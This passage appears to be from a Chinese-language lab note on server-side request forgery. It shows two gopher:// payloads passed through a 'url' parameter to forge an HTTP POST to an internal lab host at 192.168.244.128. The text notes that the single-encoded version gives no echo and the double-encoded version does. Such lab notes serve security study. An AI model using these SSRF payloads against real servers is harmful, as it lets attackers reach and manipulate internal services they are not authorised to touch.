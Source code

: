     直接用通过命令发起的payload（一次url编码），发现无回显

    ```php
    ?url=gopher://192.168.244.128:80/_POST%20/1.php%20HTTP/1.1%0D%0AHost%3A%20192.168.244.128%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%206%0D%0A%0D%0Aa%3Dkhaz%0D%0A
    ```

    ![image-20220805142401807](../../../images/image-20220805142401807.png)

    

    再次进行url编码后发送，发现是可以回显的。

      ```php
    ?url=gopher%3A%2F%2F192.168.244.128%3A80%2F_POST%2520%2F1.php%2520HTTP%2F1.1%250D%250AHost%253A%2520192.168.244.128%250D%250AContent-Type%253A%2520application%2Fx-www-form-urlencoded%250D%250AContent-Length%253A%25206%250D%250A%250D%250Aa%253Dkhaz%250D%250A
      ```

![image-20220805142614175](../../../images/image-20220805142614175.png)
    	